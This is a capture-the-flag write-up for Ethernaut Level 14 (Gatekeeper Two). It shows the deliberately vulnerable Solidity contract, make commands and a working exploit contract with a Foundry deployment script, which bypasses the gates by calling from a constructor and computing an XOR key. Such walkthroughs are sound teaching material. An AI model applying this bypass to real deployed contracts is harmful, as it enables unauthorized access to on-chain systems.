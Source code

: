 # Level 14 - Gatekeeper 2 ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/14" %}

### Level Setup

{% hint style="info" %}
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

**Things that might help:**

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperTwo.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-14

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-14

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/7851977141ce27a4cb0f3eda16209208b7a1c779/src/Level14.sol" %}

{% code title="src/Level14.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                    LEVEL 14 - GATEKEEPER TWO                 │
// ================================================================
contract GatekeeperTwoMiddleman {
    constructor(address targetContract) {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        (bool success,) = address(targetContract).call(abi.encodeWithSignature("enter(bytes8)", key));
        require(success);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/7851977141ce27a4cb0f3eda16209208b7a1c779/script/Level14.s.sol" %}

{% code title="script/Level14.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {GatekeeperTwoMiddleman} from "../src/Level14.sol";

// ================================================================
// │                    LEVEL 14 - GATEKEEPER TWO                 │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new GatekeeperTwoMiddleman(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](mailto:0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_14_Gatekeeper-Two.md" %}
